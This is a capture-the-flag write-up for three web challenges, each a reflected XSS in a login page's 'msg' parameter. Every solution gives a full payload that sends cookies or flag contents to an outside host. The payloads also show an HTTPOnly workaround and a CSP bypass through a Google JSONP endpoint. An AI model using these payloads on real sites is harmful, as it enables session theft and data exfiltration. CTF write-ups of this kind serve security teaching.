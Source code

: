 # Login

- Category: Web
- Solves: 1/12
- Difficulty: Easy

## Description

The login panel contains a Reflected XSS vulnerability

## Solution

The error message on the login page is vulnerable to XSS.
We can control the `msg` parameter and inject JavaScript code.

Payload: `http://web/login?msg=<svg onload=fetch('https://ctf.tris.tw/?'%2window.btoa(document.cookie))>`

# Login Revenge

- Category: Web
- Solves: 1/12
- Difficulty: Medium

## Description

The login panel contains a Reflected XSS vulnerability but this time admin's cookie is set with the `HTTPOnly` attribute.

## Solution

The error message on the login page is vulnerable to XSS, we can control `msg` parameter and inject JavaScript code.
Due to restriction of `HTTPOnly`, we can't steal the cookie directly. Instead, we can leak the content of the `/flag` page to obtain the flag

Payload: `http://web/login?msg=%3Csvg%20onload=%22fetch(%27/flag%27).then(res=%3Eres.text()).then(flag=%3Efetch(%27https://ctf.tris.tw?%27%2bwindow.btoa(flag)))%22%3E`

# Login Revenge Revenge

## Description

The login panel contains a Reflected XSS vulnerability but this time admin's cookie is set with the `HTTPOnly` attribute.
The Website is also protected by the following Content-Security Policy

`default-src 'none';`
`script-src *.google.com cdn.tailwindcss.com;`
`style-src cdn.tailwindcss.com 'unsafe-inline';`

## Solution

`script-src *.google.com` is insecure. It can be bypassed using Google's public JSONP endpoint: `https://accounts.google.com/o/oauth2/revoke?callback=alert()`

Due to the CSP restriction, if we want to exfiltrate data, we must navigate away from the current page by changing `location.href` and redirecting to our own site with the flag included.

Payload: `http://web/login?msg=<script src="https://accounts.google.com/o/oauth2/revoke?callback=var a = window.open('/flag');setTimeout(function(){location='https://ctf.tris.tw?'%252bwindow.btoa(a.document.body.innerHTML)},100);"></script>`